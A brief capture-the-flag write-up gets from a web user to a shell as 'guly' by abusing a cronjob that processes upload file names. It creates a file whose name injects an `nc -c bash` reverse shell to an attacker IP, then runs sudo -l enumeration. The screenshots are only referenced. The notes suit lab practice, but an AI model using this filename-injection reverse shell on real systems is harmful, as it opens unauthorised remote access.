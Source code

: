 # Getting Root
cronjob every 3 minutes
![[Pasted image 20211202130349.png]]

Analyzing the code of check_attack_php, we can control the variable $value
![[Pasted image 20211202125700.png]]

we can escape the command and pipe or command with ';' after $path

Running  on uploads directory
```bash
touch -- ';nc -c bash 10.10.14.21 9001;.php'
```
![[Pasted image 20211202130532.png]]

Shell as guly
![[Pasted image 20211202130618.png]]

```bash
sudo -l
```
![[Pasted image 20211202131746.png]]
Permit space, can use space to run command?

![[Pasted image 20211202132055.png]]